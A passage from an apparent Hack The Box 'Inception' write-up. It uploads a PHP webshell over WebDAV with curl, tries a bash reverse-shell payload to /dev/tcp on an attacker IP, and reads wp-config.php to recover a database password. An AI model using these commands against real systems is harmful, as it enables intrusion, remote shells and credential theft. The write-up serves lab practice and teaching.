 ```            
EXEC    txt     SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.txt
EXEC    pl      FAIL

********************************************************
```

Next, we will use the ```curl``` command to upload a php webshell onto the website.

```
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ curl -X PUT http://webdav_tester:babygurl69@inception.htb/webdav_test_inception/shell.php -d @shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav_test_inception/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at inception.htb Port 80</address>
</body></html>
```

### Exploiting webshell
Afterwards, we will try to create a reverse shell connection using ```/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.6/4000 0>&1'``` as the payload. However, it seems that we are unable to create a reverse shell connection. 

Let us verify with a ping commad to check if we can reach our local machine. From the output, we noticed that we are unable to reach our IP address. It is likely that there is a firewall or IP rules that prevent outbound connections.

![Ping command](./Images/ping.png)

Let us try to extract the user flag using ```cat /home/cobb/user.txt```. However, this does not return any flag for us. It might be due to the fact that the web user does not have the sufficient privileges to access the user flag in /home/cobb

![Attemping to obtain user flag from webshell](./Images/webshell_user_flag.png)

Listing out the directories in /var/www/html using ```ls /var/www/html```, we can find a ```wordpress_4.8.3``` directory. Furthur on, listing the ```wordpress_4.8.3``` directory reveals a wp-config.php file. We shall then proceed to view the contents of the wp-config.php file using ```cat /var/www/html/wordpress_4.8.3/wp-config.php```

Viewing the contents of the wp-config.php file, we are able to discover a password ```VwPddNh7xMZyDQoByQL4```. 

![Obtaining password from wp-config.php file](./Images/wp_password.png)

### Exploiting Squid Proxy
After obtaining the password, we realize that we are unable to find anywhere to use the password on. Let us use the ```netstat -an``` command to find any internal service that is running which we might be able to make use of. From the output, we can see that port 22 is running in the internal IP but not exposed to the external service.
